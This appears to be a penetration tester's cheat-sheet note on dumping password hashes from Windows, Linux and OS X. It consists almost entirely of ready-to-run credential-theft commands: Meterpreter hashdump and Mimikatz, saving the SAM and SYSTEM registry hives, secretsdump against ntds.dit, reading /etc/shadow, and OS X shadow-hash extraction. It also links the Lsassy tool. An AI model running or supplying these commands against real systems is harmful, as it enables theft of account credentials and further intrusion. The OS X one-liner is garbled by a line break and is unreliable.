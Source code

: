 ```yaml
---
title: 2. Dumping Hashes
updated: 2020-05-07 02:39:44Z
created: 2019-11-26 04:41:21Z
---
```


# Windows: 

## Meterpreter HashDump

- run post/windows/gather/hashdump

## Meterpreter Mimikatz (Post Exploitation must be executed from SYSTEM privileges)

- load mimikatz
- creds_all

DUMP LSA SECRETS
- lsadump.py sys_backup.hiv sec_backup.hiv

DUMP LOCAL PASSWORD HASHES

- pwdump.py sys_backup.hiv sec_backup.hiv

## reg.exe 

- reg save HKLM\sam sam
- reg save HKLM\system system

## samdump2

- samdump2 SYSTEM SAM > hashes.db

## Impacket Tools: 

- secretsdump.py -ntds ~/Extract/ntds.dit -system ~/Extract/SYSTEM -hashes lmhash:nthash LOCAL -outputfile ntlm-hashes

If you have the NTDS.dit file and the SYSTEM hive: 

- secretsdump.py -ntds /root/ntds_cracking/ntds.dit -system /root/ntds_cracking/systemhive LOCAL

# Linux

Requires Root Privileges

- cat /etc/shadow

- cp /etc/passwd and shadow
- unshadow passwd shadow 

#  OSX

10.5-10.7

- dscl localhost -read /Search/Users/<username>|grep GeneratedUID|cut -c15-cat
/var/db/shadow/hash/<GUID> | cut -c169-216 > osx_hash.txt

10.8-10.12

- sudo defaults read /var/db/dslocal/nodes/Default/users/<username>.plist ShadowHashData|tr -dc ‘
0-9a-f’|xxd -p -r|plutil -convert xml1 - -o -

# Other Resources: 

- Lsassy: https://github.com/Hackndo/lsassy